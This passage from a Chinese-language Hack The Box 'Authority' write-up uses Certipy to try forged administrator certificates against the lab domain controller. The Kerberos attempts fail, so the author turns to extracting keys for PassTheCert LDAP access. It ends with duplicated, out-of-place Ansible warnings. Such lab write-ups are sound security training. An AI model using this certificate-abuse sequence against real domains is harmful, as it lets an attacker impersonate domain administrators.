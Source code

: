 ```bash
```

直接就获得pfx格式的证书了，执行后续步骤。不过两个证书都会报错 `KDC_ERR_PADATA_TYPE_NOSUPP`：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'authority.htb' -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy auth -pfx 'administrator_authority.pfx' -username 'administrator' -domain 'authority.htb' -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

##### KDC_ERR_PADATA_TYPE_NOSUPP

搜了一下这个报错，发现[这篇文章](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)提到了可以用 `PassTheCert` 进行LDAP认证。  
> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like PassTheCert. You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.

### [PassTheCert](https://github.com/AlmondOffSec/PassTheCert)

根据其[github文档](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)，从pfx中提取crt和key：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'user.crt'
                                                                                                                    
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy cert -pfx administrator_authority.pfx -nocert -out user.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'user.key'
```


[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available